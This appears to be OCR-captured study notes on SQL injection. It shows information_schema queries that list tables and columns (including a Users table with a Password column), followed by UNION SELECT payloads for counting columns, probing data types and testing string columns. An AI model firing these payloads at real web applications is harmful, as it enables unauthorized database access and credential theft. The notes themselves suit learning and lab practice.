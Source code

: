 For example, you can query `information_schema.tables` to list the tables in the database:

```
SELECT * FROM information_schema.tables
```

This returns output like the following:

```sql
TABLE_CATALOG TABLE_SCHEMA TABLE_NAME TABLE_TYPE ===================================================== MyDatabase dbo Products BASE TABLE MyDatabase dbo Users BASE TABLE MyDatabase dbo Feedback BASE TABLE

```
This output indicates that there are three tables, called `Products`, `Users`, and `Feedback`.

You can then query `information_schema.columns` to list the columns in individual tables:

```sql
SELECT * FROM information_schema.columns WHERE table_name = 'Users'
```

This returns output like the following:

```sql
TABLE_CATALOG TABLE_SCHEMA TABLE_NAME COLUMN_NAME DATA_TYPE ================================================================= MyDatabase dbo Users UserId int MyDatabase dbo Users Username varchar MyDatabase dbo Users Password varchar
```

This output shows the columns in the specified table and the data type of each column.








`TO CHECK NO OF COLUMNS:`
```SQL
' UNION SELECT NULL-- 
' UNION SELECT NULL,NULL-- 
' UNION SELECT NULL,NULL,NULL-- 
```


`TO FIND COMPACTABLE DATA TYPE:`
```sql
' UNION SELECT 'a',NULL,NULL,NULL-- 
' UNION SELECT NULL,'a',NULL,NULL-- 
' UNION SELECT NULL,NULL,'a',NULL-- 
' UNION SELECT NULL,NULL,NULL,'a'--
```

`TO DETERMINE IF TWO COLUMNS CONTAINS STRINGS`

```sql
'+UNION+SELECT+'abc','def'--
```
